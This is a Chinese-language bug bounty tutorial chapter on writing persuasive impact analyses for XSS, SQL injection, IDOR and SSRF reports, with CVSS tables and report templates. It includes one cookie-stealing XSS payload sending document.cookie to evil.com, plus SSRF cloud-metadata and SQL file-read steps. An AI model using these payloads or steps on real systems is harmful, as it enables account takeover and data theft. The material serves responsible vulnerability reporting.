



## 影响分析：决定赏金上限的核心能力

在 Bug Bounty 领域，影响分析（Impact Analysis）是将"发现漏洞"转化为"获得赏金"的关键桥梁。同一个漏洞，不同的影响描述方式，可能导致赏金相差数倍甚至数十倍。平台审核员和安全团队在评估赏金时，最核心的考量就是：**这个漏洞到底能造成多大的实际损害？**

影响分析不是简单地写一句"攻击者可以执行任意操作"，而是需要系统性地论证：攻击场景是什么、攻击者能获得什么权限、波及范围有多大、最坏情况是什么。一篇报告的影响力描述，直接决定了它是被归为低危（$50-$200）还是高危（$1000+）。

---

## 影响分析的核心框架

### CVSS 评分与影响维度

绝大多数 Bug Bounty 平台使用 CVSS（Common Vulnerability Scoring System）评分体系来量化漏洞严重程度。CVSS v3.1 的影响指标（Impact Metrics）包含三个核心维度：

| 维度 | 含义 | 取值范围 |
|------|------|----------|
| **机密性影响（C）** | 信息泄露的严重程度 | 无/低/高 |
| **完整性影响（I）** | 数据被篡改的严重程度 | 无/低/高 |
| **可用性影响（A）** | 系统被中断的严重程度 | 无/低/高 |

**机密性（Confidentiality）**：攻击者能读取到哪些数据。读取一个普通用户的个人信息是"低"，读取所有用户的敏感数据（密码哈希、支付信息）是"高"。

**完整性（Integrity）**：攻击者能修改哪些数据。修改自己的个人资料是"低"，修改其他用户的账户余额或权限是"高"。

**可用性（Availability）**：攻击者能否让系统对合法用户不可用。触发一次短暂的错误页面是"低"，删除关键数据库导致长期宕机是"高"。

理解这三个维度是做好影响分析的基础。在写报告时，你需要明确指出你的漏洞在每个维度上造成了什么级别的影响，并给出合理的论证。

### 攻击场景建模

攻击场景建模是影响分析的核心方法论。它要求你从攻击者的视角出发，完整地描述从获取漏洞到造成最终损害的整个攻击链。



一个完整的攻击场景应包含以下要素：

1. **攻击者画像**：攻击者是未认证用户还是已认证用户？是普通用户还是管理员？
2. **攻击入口**：通过哪个入口触发漏洞？
3. **攻击路径**：从触发漏洞到造成最终损害的完整步骤链
4. **攻击成本**：需要多少时间、技术能力和资源
5. **最终收益**：攻击者能获得什么具体利益
6. **受害者范围**：有多少用户/系统受到影响

### 影响量化矩阵

不同类型漏洞的影响差异巨大。以下矩阵展示了常见漏洞类型在不同场景下的典型影响：

| 漏洞类型 | 单用户场景 | 多用户场景 | 管理员场景 | 平台级场景 |
|----------|-----------|-----------|-----------|-----------|
| 存储型 XSS | 低 | 中-高 | 高-严重 | 严重 |
| SQL 注入（UNION） | 中 | 高 | 高-严重 | 严重 |
| IDOR | 低-中 | 中-高 | 高 | 严重 |
| SSRF | 中 | 中 | 高-严重 | 严重 |
| 权限提升 | 低 | 中 | 高-严重 | 严重 |
| CSRF | 低-中 | 中 | 高 | 高-严重 |
| 信息泄露 | 低 | 中 | 高 | 高 |

---

## 不同漏洞类型的影响分析方法

### XSS（跨站脚本攻击）的影响分析

XSS 是 Bug Bounty 中最常见的漏洞类型，但很多报告只写了"可以在受害者浏览器中执行任意 JavaScript"就结束了。这种描述过于笼统，审核员无法判断实际危害。

**❌ 弱影响描述示例：**

> 攻击者可以在受害者的浏览器中执行任意 JavaScript 代码，可能导致窃取用户的 Session Token、以用户身份执行操作、窃取敏感信息。

**✅ 强影响描述示例：**

> 通过在用户评论区注入存储型 XSS payload，攻击者可以：
>
> **1. Session 劫持**：当任意用户浏览包含恶意评论的页面时，自动向攻击者控制的服务器发送 `document.cookie`，获取该用户的会话令牌。攻击者使用该令牌可以完全接管该用户账户，包括查看/修改个人信息、执行资金操作等。
>
> **2. 钓鱼攻击增强**：通过 `window.location` 重定向或 DOM 操作伪造登录页面，受害者输入的凭证直接发送给攻击者。由于页面域名是可信的 `example.com`，用户不会产生警觉。
>
> **3. 键盘记录**：注入键盘监听脚本，记录用户在该页面上的所有输入，包括搜索查询、表单填写内容（地址、电话号码等 PII 信息）。
>
> **4. 横向传播**：由于评论内容对所有用户可见，该 XSS 影响所有访问该页面的用户（日均 UV 50,000+），且持久存在于数据库中，直到管理员手动删除。
>
> **5. CSRF 攻击跳板**：利用已认证用户的会话，自动执行敏感操作（修改密码、绑定新邮箱、发起转账等），因为浏览器会自动携带用户的 CSRF Token。

**XSS 影响分析的关键提升点：**

- **明确攻击向量**：是存储型、反射型还是 DOM 型？每种类型的传播方式不同
- **量化受害范围**：日均访问量是多少？有多少潜在受害者？
- **描述具体利用路径**：不是泛泛地说"可以执行 JS"，而是列出具体的攻击步骤和预期结果
- **说明持久性**：存储型 XSS 持久存在于数据库，反射型 XSS 需要构造恶意链接，DOM 型 XSS 取决于页面状态

### SQL 注入的影响分析

SQL 注入的影响分析需要明确两点：数据库类型和查询权限。



**SQL 注入影响分析模板：**

> **漏洞位置**：`/api/users/search?q=` 参数，未过滤直接拼接到 SQL 查询
>
> **数据库类型**：MySQL 8.0（通过 `version()` 错误回显确认）
>
> **当前用户权限**：`webapp@localhost`，拥有 `SELECT, INSERT, UPDATE` 权限（通过 `mysql.user` 表确认）
>
> **可访问的数据库**：`webapp_prod`（当前库）、`information_schema`
>
> **可访问的敏感表**：
> - `users` 表（约 120 万条记录）：包含 username、email、password_bcrypt、phone、address
> - `payment_methods` 表（约 80 万条记录）：包含 card_last4、card_type、billing_address
> - `admin_users` 表（约 15 条记录）：包含 admin credentials
>
> **攻击路径**：
> 1. 使用 UNION SELECT 一次性提取所有用户数据
> 2. 提取 admin_users 表获取管理员凭证
> 3. 使用管理员凭证登录后台管理系统
> 4. 后台系统可导出完整用户数据库
>
> **最坏情况**：120 万用户 PII + 80 万用户的支付信息泄露

### IDOR（不安全的直接对象引用）的影响分析

IDOR 的核心在于：通过修改请求中的标识符，能否访问到不属于自己的数据。

**影响分析的关键问题：**

1. **标识符类型**：是顺序 ID（容易遍历）还是 UUID（难以猜测）？
2. **授权检查**：服务端是否完全没有检查，还是检查有绕过方式？
3. **数据敏感度**：访问到的数据包含什么？是公开信息还是敏感 PII？
4. **批量利用可行性**：是否可以通过脚本批量遍历获取所有用户数据？

**强影响描述：**

> **漏洞概述**：通过修改 `/api/v1/users/{id}/profile` 中的 `id` 参数，可以访问任意用户的个人资料。
>
> **标识符分析**：用户 ID 为自增整数（1 到 1,247,832），服务端未做任何授权检查。
>
> **数据敏感度**：响应包含以下字段：
> - full_name（姓名）
> - email（邮箱）
> - phone_number（手机号）
> - home_address（家庭住址）
> - date_of_birth（出生日期）
> - id_card_number（身份证号）—— 仅在部分用户中返回
>
> **批量利用**：编写简单脚本，使用 50 个并发连接，约 30 分钟可遍历全部用户数据。
>
> **影响范围**：约 125 万用户的完整 PII，包括身份证号和家庭住址。

### SSRF（服务端请求伪造）的影响分析

SSRF 的影响分析需要重点关注：内网服务的可达性和敏感性。



**SSRF 影响的层级递进：**

| 层级 | 可达目标 | 影响程度 |
|------|----------|----------|
| 层级 1 | 读取本地文件 `/etc/passwd` | 中 |
| 层级 2 | 访问内部 Web 服务 | 中-高 |
| 层级 3 | 获取云元数据（169.254.169.254） | 高-严重 |
| 层级 4 | 通过元数据获取 IAM 凭证 | 严重 |
| 层级 5 | 使用 IAM 凭证访问云资源（S3、RDS） | 严重 |
| 层级 6 | 通过 SSM/RunCommand 执行远程命令 | 严重-危急 |

---

## 影响论证的高级技巧

### 1. 最坏情况论证法（Worst Case Analysis）

审核员评估的是漏洞的**潜在**影响，而不是你实际利用了多少。因此，论证最坏情况比展示实际利用更有说服力。

**论证结构：**

```text
漏洞存在 → 理论上可以 → 最坏可以 → 预期影响
```

**示例：**

> 该 SQL 注入漏洞存在于用户搜索接口，虽然当前数据库用户只有 SELECT 权限，但：
> 1. 通过 `LOAD DATA LOCAL INFILE` 可以读取 Web 服务器上的任意文件（包括源代码和配置文件）
> 2. 源代码中可能包含数据库连接字符串、API 密钥、AWS 凭证等敏感信息
> 3. 利用这些凭证可以进一步扩展攻击范围到其他服务
> 4. 综合评估：该漏洞可能导致整个基础设施的完全接管

### 2. 横向扩展论证法（Lateral Impact）

不只描述直接损害，还要分析攻击者可以利用该漏洞作为跳板，进一步扩大影响。

**论证模板：**

> **直接影响**：[具体损害]
>
> **横向扩展**：
> - 利用 [直接损害] 可以获取 [跳板资源]
> - 通过 [跳板资源] 可以访问 [扩展目标]
> - 最终可能造成 [扩展损害]
>
> **影响链**：A → B → C → [最终影响]

**示例：**

> **直接影响**：通过 SSRF 读取云元数据，获取当前 EC2 实例的 IAM 角色凭证。
>
> **横向扩展**：
> - 该 IAM 角色拥有 `s3:GetObject` 权限，可访问 `prod-backups` 存储桶
> - 该存储桶包含完整的数据库备份文件（约 50GB）
> - 备份文件包含所有用户的密码哈希和支付信息
> - 利用这些信息可以对所有用户进行凭证填充攻击
>
> **影响链**：SSRF → IAM 凭证 → S3 数据库备份 → 120 万用户凭证泄露

### 3. 业务影响论证法（Business Impact）

将技术影响转化为业务语言，让非技术背景的审核员也能理解严重性。

| 技术影响 | 业务影响 |
|----------|----------|
| 用户 Session 劫持 | 账户被盗用，用户资产损失 |
| PII 数据泄露 | 违反 GDPR/CCPA，面临监管处罚 |
| 数据库删除 | 业务停机，用户流失 |
| 管理员权限获取 | 内部数据泄露，商业机密外泄 |
| 源代码泄露 | 竞争对手获取核心算法和业务逻辑 |
| API 密钥泄露 | 第三方服务被滥用，产生巨额费用 |

**示例：**

> **技术影响**：通过 IDOR 获取 120 万用户的个人信息，包括姓名、邮箱、手机号和家庭住址。
>
> **业务影响**：
> - **法律合规风险**：该数据属于 GDPR 定义的个人数据，泄露事件需在 72 小时内通知监管机构，可能面临最高 2000 万欧元或全球营业额 4% 的罚款
> - **用户信任损失**：大规模数据泄露将导致用户流失，历史数据显示类似事件后 30 天内用户留存率下降 15-25%
> - **声誉损害**：媒体曝光将影响品牌形象，修复成本远超技术修复费用
> - **竞品威胁**：泄露的数据可被竞争对手用于精准营销和用户争夺

### 4. 利用条件最小化论证

即使漏洞利用需要特定条件，也要说明这些条件在实际环境中很容易满足。

**示例：**

> 虽然该存储型 XSS 需要攻击者先拥有一个普通用户账号才能注入 payload，但：
> 1. 平台注册无需任何费用或验证（邮箱注册即可）
> 2. 注册过程可在 30 秒内完成
> 3. 攻击者可以创建多个账号进行多次尝试
> 4. 注入的 payload 对所有用户永久生效，直到管理员删除
> 5. 综合来看，利用门槛极低，任何有基本技术能力的攻击者都可以实施

---

## 常见影响分析错误

### 错误 1：过于笼统

**❌ 错误示例：**

> 该漏洞允许攻击者访问敏感数据。

**✅ 正确做法：**

> 该漏洞允许未认证攻击者通过修改 URL 中的用户 ID 参数（自增整数），访问其他用户的个人资料页面，响应包含：姓名、邮箱、手机号、家庭住址、身份证号。约 125 万用户受影响。

### 错误 2：忽略利用链

**❌ 错误示例：**

> 发现了一个 XSS 漏洞，可以在评论区注入脚本。

**✅ 正确做法：**

> 存储型 XSS 位于用户评论区，所有访问该商品页面的用户都会执行注入的脚本。该页面日均 UV 约 8 万。通过注入以下 payload：
> ```javascript
> new Image().src="https://evil.com/steal?c="+document.cookie
> ```
> 可以批量窃取所有访问者的会话令牌，进而接管他们的账户。

### 错误 3：不量化影响范围

**❌ 错误示例：**

> 该漏洞可能影响部分用户。

**✅ 正确做法：**

> 该漏洞影响所有使用密码登录的用户，根据平台公开数据，注册用户约 350 万，其中约 280 万使用密码登录（其余使用第三方 OAuth 登录）。这意味着约 280 万用户的会话令牌存在被窃取的风险。

### 错误 4：遗漏最坏情况

**❌ 错误示例：**

> 通过该 SQL 注入可以读取用户表数据。

**✅ 正确做法：**

> 通过该 SQL 注入，当前可以读取 `users` 表的全部数据（约 120 万条记录，包含用户名、邮箱、密码哈希）。此外，由于当前数据库用户拥有 `FILE` 权限，还可以通过 `LOAD DATA LOCAL INFILE` 读取服务器上的任意文件，包括源代码、配置文件和 SSH 密钥。如果攻击者利用配置文件中的数据库凭证提权，还可以访问其他数据库实例。

### 错误 5：脱离业务场景

**❌ 错误示例：**

> IDOR 漏洞可以读取其他用户的订单信息。

**✅ 正确做法：**

> IDOR 漏洞允许读取任意用户的订单信息，响应包含：
> - 收件人姓名和地址
> - 购买的商品详情和价格
> - 支付方式类型（信用卡/支付宝/微信支付）
> - 订单备注（用户可能在此填写敏感信息）
>
> 由于订单数据包含完整的收货地址和购买记录，攻击者可以：
> 1. 进行精准钓鱼攻击（冒充客服联系受害者）
> 2. 入室盗窃（知道用户购买了高价值商品且有准确地址）
> 3. 社工攻击（利用购买记录制造可信的诈骗场景）

---

## 影响分析的实操模板

### 漏洞报告影响分析段落模板

```markdown
## Impact

### 直接影响
[漏洞类型] 允许 [攻击者类型] [具体操作]，导致 [直接损害]。

### 影响范围
- 受影响用户数：约 [N] 万
- 受影响数据类型：[列举具体数据字段]
- 攻击向量：[存储型/反射型/DOM型]，[触发条件描述]

### 攻击场景
1. [攻击步骤 1]
2. [攻击步骤 2]
3. [攻击步骤 3]
4. [预期结果]

### 最坏情况
[描述在最不利条件下的最大影响]

### 横向扩展
[描述利用该漏洞作为跳板的进一步攻击可能性]

### 业务影响
[将技术影响转化为业务语言的描述]

### CVSS 评分建议
基于 CVSS v3.1：
- AV:[N/A/L] / AC:[L/H] / PR:[N/L/H] / UI:[N/R]
- S:[U/C] / C:[N/L/H] / I:[N/L/H] / A:[N/L/H]
- 预估评分：[X.X]（[严重/高危/中危/低危]）
```

### 影响分级参考标准

| 等级 | 赏金范围 | 影响特征 |
|------|---------|---------|
| **严重（Critical）** | $2000-$20000+ | 全平台用户数据泄露、基础设施完全接管、大规模资金损失风险 |
| **高危（High）** | $500-$5000 | 管理员权限获取、批量用户数据泄露、核心业务逻辑绕过 |
| **中危（Medium）** | $100-$1000 | 单用户敏感数据泄露、受限范围的权限提升、需要特定条件的利用 |
| **低危（Low）** | $20-$200 | 有限的信息泄露、难以利用的理论漏洞、业务逻辑瑕疵 |

---

## 本节小结

影响分析是 Bug Bounty 报告中最具决定性的部分。它的核心要点是：

1. **具体化**：不说"可以执行任意操作"，而说"可以窃取 120 万用户的会话令牌"
2. **量化**：不说"影响部分用户"，而说"影响约 80% 的注册用户"
3. **场景化**：不说"可能造成危害"，而说"攻击者可以通过以下 3 个步骤实施攻击"
4. **极端化**：论证最坏情况，说明在最不利条件下的最大损害
5. **业务化**：将技术影响转化为法律、财务、声誉等业务层面的表述

掌握这些技巧，你的报告影响力描述将从"这个漏洞有安全风险"升级为"这个漏洞可能导致 120 万用户数据泄露、面临 GDPR 处罚、以及 500 万美元的潜在损失"——后者显然更能说服审核员给出高额赏金。
